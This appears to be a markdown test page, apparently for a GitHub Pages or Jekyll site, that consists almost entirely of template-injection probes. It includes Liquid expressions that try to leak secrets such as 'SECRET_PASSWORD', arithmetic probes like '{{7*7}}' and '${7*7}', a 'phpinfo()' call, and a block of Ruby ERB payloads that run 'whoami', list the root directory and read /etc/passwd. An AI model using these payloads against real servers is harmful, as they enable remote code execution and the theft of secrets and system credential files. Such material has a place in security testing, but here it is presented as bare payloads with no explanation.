 ```yaml
---
title: Testing
---
```


## {{ site.github.SECRET_PASSWORD }}

## Site

{{ site.github.SECRET_PASSWORD }}

## Secret

{{ secrets.SECRET_PASSWORD }}

## General

```
{{ inputs.path }}
```

```
{{ site.github.SECRET_PASSWORD }}
```

```
{{ secrets.TEST }}
```

```
200,{{phpinfo()}}
```


```
200,{{7*7}}
```

```
<%= 7*7 %>
```

```
${7*7}
```

```
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

